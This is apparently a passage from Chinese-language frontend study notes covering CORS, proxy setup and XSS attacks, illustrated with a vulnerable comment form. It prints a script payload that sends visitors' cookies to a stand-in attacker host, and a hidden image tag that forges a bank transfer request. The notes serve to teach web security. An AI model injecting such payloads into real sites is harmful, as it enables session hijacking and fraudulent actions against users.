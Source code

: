 服务端设置 Access-Control-Allow-Origin

参考：

-   [https://yuchengkai.cn/docs/frontend/browser.html#%E8%B7%A8%E5%9F%9F](https://yuchengkai.cn/docs/frontend/browser.html#%E8%B7%A8%E5%9F%9F)
-   [不要再问我跨域的问题了](https://segmentfault.com/a/1190000015597029)

### 代理

开发环境 http-proxy-middleware，生产环境 nginx 代理

## web 安全

### XSS

跨站脚本攻击（cross-site scripting），攻击者通过某种方式将恶意代码注入到网页上，然后其他用户观看到被注入的页面内容后会受到特定攻击

#### 攻击手段：

1. 劫持 cookie

页面中有一个评论输入，输入后会因为后台的漏洞，没有过滤特殊字符，直接明文保存到数据库中，然后展示到网页时直接展示明文数据，例如：

```html
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<form action="saveComment.jsp" method="post">
    请输入评论内容：<br />
    <input name="content" type="text" />
    <input type="submit" value="确认" />
</form>
```

然后攻击者分析后，输入

```html
<script>
    window.open('http://www.attackpage.com/record?secret=' + document.cookie);
</script>
```

由于没有过滤脚本，那么其它用户登陆后，在看到这篇文章时就会自动将他们的 cookie 信息都发送到了攻击者的服务器。
攻击者可以在 cookie（譬如 jsessionid 对应的 session）有效期内拿它们冒充用户操作。

需要注意，这里和 CSRF 的区别是，这里是拿到了 cookie 后主动冒充用户的，而 CSRF 中根本就不知 cookie，仅利用浏览器的隐式校验方式冒充用户

2. 伪造会话（基于 XSS 实现 CSRF）

同样是上面评论页面的示例

攻击者输入

```html
<img src="http://www.bank.example/transfer?toBankId=hello&amount=1000000" width="0" height="0" />
```

然后，接下来发生的故事就和 CSRF 中提到的一致。这种情况就是基于 XSS 而开展的 CSRF，也有人喜欢称之为 XSRF

需要注意，这里并没有自己拿到 cookie，而是 CSRF 中提到的利用浏览器的隐式验证机制来冒充用户。
